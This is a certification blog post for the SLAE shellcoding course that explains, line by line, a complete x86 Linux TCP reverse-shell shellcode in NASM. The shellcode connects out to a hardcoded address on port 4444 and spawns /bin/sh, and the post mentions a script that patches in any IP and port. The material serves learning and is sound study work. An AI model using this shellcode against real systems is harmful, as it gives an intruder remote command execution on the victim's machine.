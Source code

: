 ```yaml
---
layout: post
title: SLAE 0x2 - TCP Reverse Shell in NASM
categories: infosec
---
```


![x86 Assembly Language and Shellcoding on Linux]({{"/content/posts/slae.png" | absolute_url }}){: .center}

This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](https://www.pentesteracademy.com/course?id=3).

# Goal

The goal of this assignment is to craft my own version of *linux/shell_reverse_tcp*. This means that our shellcode connects to a target host on a specified port and returns a shell.

# How it works

To understand how it works, let's break it down to steps:

1. Create a socket file descriptor that we can use for communication
2. Connect to address and port
3. Connect *stdin*, *stdout* and *stderr* to socket
4. Execute */bin/sh*

Looking at the steps and comparing it to SLAE 0x1 Bind TCP shell, we can see that it's the same, but with connect to host instead of the bind/listen/accept syscalls. This makes this assignment a walk in the park if you already did the bind shell first and if you didn't, you should probably start with this instead.

# Assembly code

For the embedded code, I removed most of the inline comments. If you want to check out the full source code with all the comments, feel free to do it on my [Github](https://github.com/fuzboxz/SLAE/blob/master/assignments/reversetcp/reversetcp.nasm). Most of the explanation has been unchanged from SLAE 0x1, but there are some changes.

#### Initializing

The first step is to initialize the registers to make sure that we start from a clear state when the shellcode is executed. Why? Because there could be some leftover data remaining in the registers, which can lead to *unexpected behaviour*. I XORd the EAX register with itself and moved it's value into the other registers. You can also XOR out the others or instead of moving POP a 0x00 value from the stack.

    ; xor register eax so we avoid null byte, then mov value into other registers as well   
    xor eax, eax
    mov ebx, eax
    mov ecx, eax
    mov edi, eax
    mov esi, eax


#### Socket

Next, we need to create the socket file descriptor. For this, I used the socket() syscall with the SYS_SOCKET socket call. This creates a socket file descriptor and gives back the file handler as the return value. My favorite reference for syscalls is [syscalls.kernelgrok.com](https://syscalls.kernelgrok.com/) which shows what each register needs to contain for the given syscall. Upon looking at the reference, we can see that for the sys_socketcall we need to set EAX to 0x66 (102), specify the call in EBX and pass the references in ECX.

For the first socket call (SYS_SOCKET), I needed to specify the domain (protocol family aka IPv4) AF_INET - 0x2, the type (TCP) SOCK_STREAM - 0x1 and the protocol, which in this case is 0x0 as we accept any protocol. To set up the call, I first moved 0x66 into the EAX register for the sys_socketcall, then I incremented the EBX register by one to contain the value of the SYS_SOCKET call. Then I pushed the value of the arguments in reverse order and stored the address in ECX. ECX was XORed out from before so it contained 0x00, EBX is 0x1 because of SYS_SOCKET so this was used for the type argument, while for AF_INET I pushed 0x2 byte on the stack.

    socket:
    mov al, 0x66 ; 102 sys_socketcall

    inc bl ; SYS_SOCKET 1 
    
    push ecx ; 0x0 - any - int protocol
    push ebx ; 0x1 - SOCK_STREAM - int type
    push byte 0x2 ; 0x2 - PF_INET/AF_INET - int domain
    
    mov ecx, esp ; store argument address in ecx

    int 0x80 ; sys_socketcall

#### Connect

This is the only major change compared to the bind shell. Instead of a the bind/listen/accept I now only had to do a connect function call. To my surprise connecting to a remote host is much-much easier than setting up a bind shell on your machine. 

The flow of the code is somewhat similar to the bind function call. I set up the registers for the function call first EAX -> 0x66 SYS_SOCKETCALL and EBX -> SYS_CONNECT. After that I pushed the sockaddr struct onto the stack, first the IP address in network byte order (connects back to localhost by default), then the port 4444, byte 0x2 (as in AF_INET) and finally stored the sockaddr_in pointer in ECX and pushed that on the stack. We also need the addrlen and the socket file descriptor, so I pushed 16 and the sockfd from ESI as well. Finally we just need to move the argument address to ECX and do the syscall.

    mov esi, eax ; move sockfd into esi
    mov al, 0x66; 102 sys_socketcall
    mov bl, 0x3; SYS_CONNECT 

    push 0x0101017f; 127.1.1.1 in network byte order 
    push word 0x5c11; port 4444 in network byte order
    push word 0x2 ; 0x2, sin_family - AF_INET

    mov ecx, esp ; store sockaddr_in pointer
    push byte 16 ; socketlen_t addrlen 16 bit

    push ecx ; sockaddr_in pointer
    push esi ; push sockfd

    mov ecx, esp ; store argument address in ecx
    int 0x80 ; syscall


#### Duplicate

In this section of the shellcode we bind together stdin, stdout, stderr and the socket file descriptor. I first swapped out EAX and EBX, so EBX points to the file descriptor. After that I zeroed out ECX as a start value for the loop.

    duplicate:        
    xchg eax, ebx ; move fdescriptor from accept into ebx for oldfd
    xor ecx, ecx ; zero out ecx for counter

The loop portion of the code moves 0x3f into EAX, calls the interrupt, increments ECX (loop counter), compares ECX with 0x3 and jumps back to the start of the loop if ECX is not equal to 3. What this means in practice is that it calls the dup2 system call on our socket with stdin, stdout and stderr.

    dup2:
    mov al, 0x3f ; int dup2 - 63 in hex
    int 0x80 ; dup2 syscall
    inc cl ; increment loop register
    cmp ecx, 0x3 ; compare ecx 0x3 
    jne dup2 ; if ecx != 3 continue looping

#### Execve

In the last part of the shellcode, we spawn /bin/sh. The code is straight out from the previous execve stack exercise without any major changes. We need to push //bin/sh0x0 onto the stack for EBX, the memory adress of //bin/sh,0x0 for ECX and 0x0 for EDX. 

    execsh:

    xor eax, eax ; null out eax
    push eax ; null byte
    
    push 0x68732f6e ; hs/n
    push 0x69622f2f ; ib//
    
    mov ebx, esp ; move stack pointer into ebx
    push eax ; push another null for the sys argv
    mov edx, esp ; sysargv arguments - address as above, but now with extra null bytes
    push ebx ; push address of the program name -> //bin/sh0x00
    mov ecx, esp ; arguments

    mov al, 11 ; execve syscall
    int 0x80 ; call execve


# Call graph

Here is the graph call for the shellcode. As *libemu* doesn't work on my machine, I had used *radare2* and *Cutter* to export the call graph.

![Graph call in Cutter]({{"/content/posts/slae/revshellgraph.png" | absolute_url }}){: .center}


# Shell 

Launching the shellcode on port 4444 in the compiled C test program and connecting to it with *netcat*.

![x86 Assembly Language and Shellcoding on Linux]({{"/content/posts/slae/revshell.png" | absolute_url }}){: .center}

# Shellcode generator

I also made a short shellcode generator script in Python3 to make custom payloads easier. It can be found on [my Github repository](https://github.com/fuzboxz/SLAE/blob/master/assignments/reversetcp/reversetcp.py). Using it is really easy, it takes two arguments (ip and port) and echoes out the modified shellcode to *stdout*. The way it works is very simple, it transforms the IP and port into hex and replaces them in the hardcoded shellcode. There are a few validation rules, but it doesn't check for null or other badchars.

# Final Thoughts

After doing the previous assignment, this was a walk in the park. It took roughly 20 minutes to change everything in the bind tcp shell, so it connects to a remote host instead of listening locally and another 20 minutes to figure out the changes for the IP in the shellcode generation script. For those who are reading this because they plan to do SLAE, I would recommend starting with this instead of bind TCP.

Even though I found this assignment easier compared to the previous one, I still learned a lot. Coding your own shellcodes teaches you a lot about how they work and what happens to them when you send them to that poor-poor vulnerable service that you wanted to exploit. It was really awesome to see that /bin/sh was still there, waiting for instructions, when the shellcode failed to connect back to my attacker machine. I have seen this previously in the OSCP labs and it all became clear to me after seeing it with *my code*. These wins are the reason why I love infosec, no matter how much you know, you can always go deeper and learn something new.

Again, all the code is on my [Github](https://github.com/fuzboxz/SLAE) and if you want to be informed about new posts, just follow me on Twitter at [@fuzboxz](https://twitter.com/fuzboxz).